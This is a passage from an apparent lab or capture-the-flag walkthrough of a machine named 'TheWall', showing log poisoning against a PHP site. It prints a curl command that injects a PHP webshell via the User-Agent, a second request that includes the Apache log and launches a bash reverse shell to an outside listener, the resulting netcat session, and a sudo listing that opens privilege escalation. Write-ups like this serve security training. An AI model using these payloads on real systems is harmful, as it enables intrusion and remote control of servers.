 So I got to do it in this way:

```bash
curl -A '<?php echo 456; system($_GET[1]);?>' http://192.168.0.106/index.php
curl -G --data-urlencode 'display_page=/var/log/apache2/access.log' --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.0.104/8888 0>&1"' http://192.168.0.106/includes.php
```

**Key points:** 

```bash
curl -A '<?php echo 456; system($_GET[1]);?>' http://192.168.0.106/index.php
```

- **Sends a request with a custom User-Agent** containing PHP code.
- **If the server logs User-Agent values**, this PHP code might be stored in Apache logs.
- The PHP code:
    - `echo 456;` → Prints `456` (used for testing).
    - `system($_GET[1]);` → Executes remote commands via the `1` GET parameter.
- **Purpose:** Inject a backdoor into the log file for later execution.

```bash
curl -G --data-urlencode 'display_page=/var/log/apache2/access.log' \
         --data-urlencode '1=/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.0.104/8888 0>&1"' \
         http://192.168.0.106/includes.php
```

- **Uses `-G` to send a GET request instead of POST.**
- **Requests to view the Apache log file (`display_page=/var/log/apache2/access.log`).**
- **Injects a reverse shell payload in the `1` parameter.**
    - Executes a bash shell.
    - Redirects input/output to your machine (`192.168.0.104`) on port `8888`.
- **If `includes.php` runs `system($_GET[1])`, it will execute the reverse shell.**
- **Purpose:** Trigger remote command execution and get a shell.

```bash
❯ nc -nlvp 8888
listening on [any] 8888 ...
connect to [192.168.0.104] from (UNKNOWN) [192.168.0.106] 44806
bash: cannot set terminal process group (469): Inappropriate ioctl for device
bash: no job control in this shell
www-data@TheWall:/var/www/html$ pwd
pwd
/var/www/html
www-data@TheWall:/var/www/html$ 
```

Here if I was successful.

## 4. Privilege Escalation

I listed the permissions:

```bash
www-data@TheWall:/home/john$ sudo -l
sudo -l
Matching Defaults entries for www-data on TheWall:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on TheWall:
    (john : john) NOPASSWD: /usr/bin/exiftool
www-data@TheWall:/home/john$
```
